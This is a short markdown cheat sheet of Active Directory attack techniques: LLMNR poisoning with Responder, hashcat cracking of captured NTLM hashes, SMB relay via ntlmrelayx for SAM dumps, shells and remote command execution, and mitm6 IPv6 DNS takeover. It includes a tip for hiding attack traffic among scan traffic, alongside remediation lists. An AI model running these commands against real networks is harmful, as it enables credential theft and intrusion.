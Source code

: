 # AD: Initial Attack Vectors
Internal Notes

### LLMNR Poison
- Something like Responder for tooling to perform these attacks.
- MITM based
- Maybe worth running Responder at the same time as Nessus/Nexpose/VAS scans, to obfuscate & utilize traffic that is common.
  - `responder -I {interface} -dwPv`
- Captured Hashes can crack
  - `hashcat -m 5600 crack.txt /usr/share/wordlists/fasttrack.txt` 

#### Remediation
- GPO: DNS Client: Multicast Name Resolution(Botom of List)
- NAC
- Password Policy
___  
### SMB Attacks
- Responder (Relay) - Ensure HTTP and SMB servers off. Should have an Admin Account to be worth it
  - `nmap --script=smb2-security-mode.nse -p445 10.0.0.25`
  - `ntlmrelayx.py `
    - Dumps SAM
  - `ntlmrelayx.py -i`: Interactive(Establish Bind Shell on local address)
    - `nc 127.0.0.1:11000` - `help` list of options that can be performed through the smb client shell
  - `ntlmrelayx.py -c "Bad Stuff command"` - Remote Code Execution through SMB relay 

#### Mitigations
- SMB Signing
- Disable NTLM
- Account tiers
- Local Admin Restrictions

---
### IPv6
- Relay(DNS Takeover) - **MITM6**  (Be careful!) - Short runs
  - `ntlmrelayx.py -6 -t ldaps://{target/DC} -wh  fakewpad.{domain} -l lootXoR`
  - `mitm6 -d {domain}`
